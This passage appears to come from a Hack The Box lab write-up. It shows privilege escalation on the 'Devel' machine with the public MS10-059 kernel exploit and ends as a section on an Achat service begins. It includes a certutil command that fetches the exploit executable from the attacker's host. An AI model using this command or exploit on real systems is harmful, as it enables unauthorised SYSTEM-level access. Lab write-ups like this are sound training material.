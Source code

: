 I downloaded the .exe file from github [MS10-059 Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

After downloading, I transferred the .exe to the Windows machine using the command 
`certutil -urlcache -f http://10.10.14.15/MS10-059.exe MS10-059.exe `

ran the exploit 

![Alt text](/assets/img/htb/devel/dev_017.png)

and got `nt authority\system`

![Alt text](/assets/img/htb/devel/dev_018.png)


# Escalation Path: Passwords and Port Forwarding 
## Gaining a Foothold (Box 2)
With the nmap scan , there was a port that was intresting `9256` which was running sercice achat
